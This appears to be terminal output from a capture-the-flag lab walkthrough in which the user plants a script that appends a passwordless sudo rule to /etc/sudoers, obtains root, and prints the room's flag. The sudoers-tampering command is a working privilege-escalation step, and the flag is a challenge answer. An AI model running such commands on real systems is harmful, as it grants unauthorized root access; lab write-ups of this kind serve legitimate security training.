 ```
lennie@startup:~/scripts$ printf '#!/bin/bash\necho "lennie ALL=NOPASSWD:ALL" >> /etc/sudoers' > /etc/print.sh
<lennie ALL=NOPASSWD:ALL" >> /etc/sudoers' > /etc/print.sh                   
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "lennie ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```
lennie@startup:~/scripts$ sudo -l
sudo -l
sudo: unable to resolve host startup
Matching Defaults entries for lennie on startup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lennie may run the following commands on startup:
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
```

```
lennie@startup:~/scripts$ sudo su
sudo su
sudo: unable to resolve host startup
root@startup:/home/lennie/scripts# whoami  
whoami
root
root@startup:/home/lennie/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@startup:/home/lennie/scripts# crontab -l
crontab -l
* * * * * /home/lennie/scripts/planner.sh
```

```
root@startup:/home/lennie/scripts# cd /root
cd /root
root@startup:~# ls -al
ls -al
total 28
drwx------  4 root root 4096 Nov 12  2020 .
drwxr-xr-x 25 root root 4096 Aug  3 15:46 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12  2020 root.txt
drwx------  2 root root 4096 Nov 12  2020 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```
